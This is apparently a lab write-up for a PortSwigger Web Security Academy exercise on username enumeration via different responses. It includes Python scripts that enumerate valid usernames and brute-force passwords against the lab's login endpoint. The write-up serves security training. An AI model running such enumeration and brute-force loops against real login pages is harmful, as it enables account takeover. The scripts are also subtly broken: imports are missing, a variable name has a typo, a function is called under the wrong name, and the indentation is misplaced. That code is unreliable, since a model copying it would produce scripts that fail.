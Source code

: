# Lab-1: Username enumeration via different responses
> Raj Pastagiya | 16/11/2023

## Problem Statement

> This lab is vulnerable to username enumeration and password brute-force attacks. It has an account with a predictable username and password, the usernames list and password list is given. 
> To solve the lab, enumerate a valid username, brute-force this user's password, then access their account page.

### Summary
- The issue with authentication lies here in different and unique responses given by the web-application for invalid usernames and passwords separately.
	- The web-application gives "Invalid username" as response for the users that are not part of the web-application, which enables enumerating valid usernames
	- The web-application gives "Invalid password" as response for valid users and wrong password, which enables brute-forcing passwords for valid usernames
#### Looking at the site's response on Login Page
- Giving a potential username:password on the login page as "admin:admin" gives us response shown in below screenshot, which indicates that if we are not a valid user then "Invalid Username" will come as response message
![Invalid Username as Response](./images/01-invalid-username.png)

- Based on this, let's create a simple python script which will use the list of usernames given to us and see if we find any usernames for which this message doesn't come.
	- Here the login request is POST with request payload as:
```
username: "admin"
password: "admin"
```
- We will use "requests" module to send HTTP requests, and then if we don't find "Invalid Username" in response text message then we can be sure that the username entered there might be a valid user. The script looks like below:
```python
#!/usr/bin/python3
#
#
# Imports here

# List of usernames to enumerate.
users = list()

# Read users.lst and store it in a list to be used further
with open("./users.lst", "rt") as userslst:
	for user in userslst.readlines():
		users.append(user.strip())

# request body in dictionary
payload = {"username": "admin", "password": "admin"}

url="https://0a1500fa046ab4f880c3440600630046.web-security-academy.net/login"

validUsers = list()

for user in users:

	print("[*] Trying username", user, sep=": ")
	payload["username"] = user # change the placeholder os username field to the user from users list
	# Send the HTTP POST request to the url
	response = requests.post(url, data=payload, verify=False)
	# check if the "Invalid username" is in the response, if not then valid username
	if "Invalid username" not in response.text:
		print("\t[+] Found valid username", user, sep=": ")
		validUSers.append(user)

print("\n\n[*] Valid Users", validUsers, sep=": ")
```

- Now if we try with the username found by the script, we see a different message saying "Invalid password" like shown in below screenshot:
![](./images/02-invalid-password.png)

- Now we can append to above script and use the found usernames to bruteforce the password based on password list we were given.
- In below script to make the script more easier to understand I have made functions for every requirements. Also the "user_enum()" function is same as the script shared above
```python
#!/usr/bin/python3
#
#
# Imports here

# request body in dictionary
payload = {"username": "admin", "password": "admin"}

url="https://0a1500fa046ab4f880c3440600630046.web-security-academy.net/login"

# List of usernames to enumerate.
def user_enum():
	# user enumeration script here
	
	return validUsers

def enum_password(validUsers):
	# List of passwords to enumerate.
	passwords = list()

	# Read passwords.lst and store it in a list to be used further
	with open("./passwords.lst", "rt") as passlst:
		for password in passlst.readlines():
			 passwords.append(password.strip())

for user in validUsers:
	payload["username"] = user # change the placeholder of username field to the user from users list
	for password in passwords:
		payload["password"] = password # change the placeholder of password field to the password from passwords list
		# Send the HTTP POST request to the url
		 response = requests.post(url, data=payload, verify=False)
		# check if the "Invalid password" is in the response, if not then valid password
		if "Invalid password" not in response.text:
			print(f"\t[+] Found valid username:password pair {user}:{password}")
			break

enum_password(enum_users())
```

#### \[+] The script is available at [brute-force.py](./script/brute-force.py)





